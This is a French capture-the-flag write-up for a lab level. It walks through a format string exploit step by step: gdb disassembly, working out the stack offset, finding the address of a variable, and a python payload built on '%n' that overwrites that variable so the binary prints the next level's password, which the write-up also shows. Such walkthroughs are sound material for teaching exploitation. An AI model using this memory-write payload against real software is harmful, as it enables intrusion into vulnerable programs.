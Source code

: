 # Format String Exploitation

En décompilant l'exécutable, on remarque que le programme compare une variable statique `m` à la valeur `0x1025544`.

Il contient également un `printf` qui ne prend qu'un argument. Nous allons exploiter la faille `format string`.

L'objectif est d'utiliser les `modifiers` de `printf` pour écrire à l'adresse de la variable `m` la valeur `0x1025544` et ainsi valider la condition qui exécutera un `cat` du fichier contenant le mot de passe du `level5`.


Premièrement, convertissons `0x1025544` en base10.
```
0x1025544 = 16930116
```

Pour comprendre la faille, voici quelques exemples. Exécutons `gdb` pour avoir une idée du fonctionnement de la `stack` :

```
> gdb level4
[...]
> (gdb) disas p
[...]
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave
   0x08048456 <+18>:	ret
End of assembler dump.
```

On `break` juste après l'exécution du `printf` pour observer la `stack`, puis on lance le programme.

```
> (gdb) b *0x08048455
[...]
> (gdb) r
```

Voyons avec un exemple simple : utilisons `%1$p` en argument. Pour information, cela signifie, qu'on va avoir afficher le premier argument, et que nous voulons afficher l'adresse d'un pointeur. Cela va nous permettre de connaitre l'addresse du premier argument.


```
%1$p
[...]
0xb7ff26b0

Breakpoint 1, 0x08048455 in p ()
> (gdb) x $esp+0x04
0xbffff4c4:	0xb7ff26b0
```

On retrouve donc bien notre premier argument. 
`0xb7ff26b0` est donc l'addresse de notre premier argument.

Essayons maintenant en donnant en argument la chaine de caractère `AAAA`. Nous allons associer `%p` avec les `modifiers` `$1` qui sert à indiquer à `printf` qu'il doit afficher l'adresse du premier argument.
```
> (gdb) run
AAAA%1$p
> (gdb) x $esp 
0xbffff4c0:	0xbffff4f0
> (gdb) x 0xbffff4f0
0xbffff4f0:	0x41414141
```

En faisant `x $esp` on obtient l'addresse de `esp`. Si on affiche cette addresse, on retrouve bien nos `AAAA`.

On peut donc faire notre soustraction pour connaitre l'`offset` entre notre premier argument et le début du buffer. Donc :
 ```
 0xbffff4f0 - 0xbffff4c0
 ```  
Ce qui nous donne en héxadécimal `0x30` soit `48` en base 10.

On fait `48 / 4` et on obtient `12`.  
L'offset est donc de `12`. On peut le vérifier en affichant la pile.
Notre premier argument étant à `esp + 0x04`, on à un décalage de 1. 

```
> (gdb) x/13wx $esp
[...]
0xbffff4c0:	0xbffff4f0	0xb7ff26b0	0xbffff734	0xb7fd0ff4
0xbffff4d0:	0x00000000	0x00000000	0xbffff6f8	0x0804848d
0xbffff4e0:	0xbffff4f0	0x00000200	0xb7fd1ac0	0xb7ff37d0
0xbffff4f0:	0x41414141
```

On retrouve bien notre premier argument qui est `0xb7ff26b0` et notre `AAAA` qui est `0x41414141`. 

Si on raisonne de la manière dont `printf` s'exécute, il écrit d'abord `AAAA` en mémoire, puis affiche l'adresse du 12ème argument, qui est maintenant `0x41414141`.


Pour obtenir l'addresse de `m`, nous pouvons faire :

```
> gdb ./level4
[...]
> (gdb) info variables
[...]
0x08049810  m
```

L'addresse de m est donc `0x08049810`
En `little-endian`, cela nous donne : `\x10\x98\x04\x08`.

Nous ne pouvons pas faire d'`overflow` puisque notre programme attend `16930116` caractères. Néanmoins, nous pouvons utiliser le décalage dans `printf`, car le `%d` n'est pas écris dans le `stack`. Nous n'avons donc pas besoin de faire `A * 16930116` ce qui ne serait pas possible. 

Nous allons donc écrire à l'addresse de `m` en ajoutant nos `16930116` caractères, avec un `offset` de `12`.
L'adresse de `m` fait 4 octets. Nous devons donc soustraire 4 à `16930116`.

```
> python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /var/tmp/hack4
> cat /var/tmp/hack4 | ./level4
[...]
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```
